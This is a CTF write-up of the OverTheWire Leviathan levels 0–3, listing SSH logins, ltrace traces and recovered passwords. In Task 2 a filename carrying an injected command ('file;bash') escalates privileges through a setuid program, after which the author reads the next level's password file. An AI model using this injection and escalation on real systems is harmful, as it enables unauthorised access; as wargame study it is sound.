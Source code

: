 #TASK 0 

  - I used the SSH command provided in the discord. `ssh -p 2223 leviathan0@leviathan.labs.overthewire.org`
  - Later it after saying yes it prompted for a password and the password was mentioned in the leviathan site. `leviathan0`
  - I finally entered and did `ls`. Nothoin showed up and did ls again but there was nothing.
  - Then I `la` and found a hidden directory `.backup`
  - The directory has a html file. `bookmarks.html`
  - Used `cat` to view the contents of the file. It was too big. I couldn't find a password.
  - After some google search I found we could use `grep`. `grep password bookmarks.html`
  - The password is `PPIfmI1qsA`
  - `exit

#TASK 1
  - ssh into the level 1 using `ssh -p 2223 leviathan1@leviathan.labs.overthewire.org`
  - `ls -lah` and setuid file was found `check`
  - tried cat check but it was all encrypted
  - Tried `ls -lah` : `-r-sr-x---  1 leviathan2 leviathan1  15K Oct  5 06:19 check`
  - Used `ltrace` command which helps in debbuging. It propmted for password.
  - I pressed enter thrice in a row and it later outputed leviathan1@gibson:~$ ltrace ./check
```
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
          printf("password: ")                                                     = 10
getchar(0xf7fbe4a0, 0xf7fd6f90, 0x786573, 0x646f67password: 
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd6f0a, 0x786573, 0x646f67
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd0a0a, 0x786573, 0x646f67
)                      = 10
strcmp("\n\n\n", "sex")
```
  - Then `man strcmp` found out that it compares tw strings
  - So, the command was comparing the password I typed to the main password `sex`
  - To verify `./check`
  - typed in `sex` and it's right.
  - `ls` check file was found and it's encrypted.
  - Tried `sex` as the password for next task but it's not the passsword
  - In the main page of leviathan it says use `/etc/leviathan_pass/`
  - `cat /etc/leviathan_pass/leviathan2
  - password : `mEh5PNl10e`
  - `exit`

#TASK 2 (very hard)
  - `ssh -p 2223 leviathan2@leviathan.labs.overthewire.org`
  - `ls -lah` to see the file found another setuid file `printfile`
  - `ltrace ./printfile` to see if it has anything. It outputted
```
leviathan2@gibson:~$ ltrace ./printfile 
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                             = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                            = 28
+++ exited (status 255) +++
```
  -  Googled alot found `ltrace ./printfile /etc/passwd`
```
leviathan2@gibson:~$ ltrace ./printfile /etc/passwd
__libc_start_main(0x80491e6, 2, 0xffffd5e4, 0 <unfinished ...>
access("/etc/passwd", 4)                                                 = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")      = 20
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)
```
  -  So created a temporary directory `mktemp -d`. Directory : `/tmp/tmp.xwYiWD6qKQ`
  -  `cd /tmp/tmp.xwYiWD6qKQ` : Enter the directory
  -  `touch 'file;bash'` this helps with command injection.
  -  `cd` exit directiry.
  -  `./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash` : Permission is denined since we try to run the bash file but we escalte into leviathan3.
```
leviathan2@gibson:/tmp/tmp.xwYiWD6qKQ$ cd
leviathan2@gibson:~$ ./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash 
/bin/cat: /tmp/tmp.xwYiWD6qKQ/file: Permission denied
leviathan3@gibson:~$
```
  -  `cat /etc/leviathan_pass/leviathan3`
  -  Password: `Q0G8j4sakn`

#TASK 3
 - `ssh -p 2223 leviathan3@leviathan.labs.overthewire.org`
 - `ls` : level13
 - `ltrace ./lever13` like we did for task 1
 - we can see the password `strcmp("snlprintf\\n\n", "snlprintf\n")` similar to task 1 but we also get `strcmp("h0no33", "kakaka") `
 - Tried both and got in with `snlprintf`
 - `cat /etc/leviathan_pass/leviathan4`
 - Password : `AgvropI4OA`
 - `exit`

#TASK 4 
 - 
   
 



  

